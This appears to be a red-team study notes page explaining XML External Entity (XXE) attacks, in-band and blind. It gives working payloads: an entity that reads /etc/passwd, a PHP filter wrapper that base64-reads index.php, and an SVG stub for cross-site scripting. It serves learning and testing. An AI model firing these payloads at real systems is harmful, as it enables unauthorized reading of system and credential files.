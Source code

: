 # XML External Entity (XXE)

[Go back](../../index.md)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Append to the XML a sensitive file
* Perform a DDoS attack
* Do a [SSRF attack](../web/ssrf.md)

There are two kind of XXE

* **In-band XXE**: same channel to attack and fetch results
* **Out-band/Blind XXE**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the content of `/etc/passwd`. The parsed XML will have the content of the file inside the root element.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc SYSTEM 'file:///etc/passwd']>
<root>&poc;</root>
```
</div></div>

<hr class="sep-both">

## XXE Payloads

<div class="row row-cols-lg-2"><div>

Use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read a file:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
</div><div>

Perform an [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) attack:

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>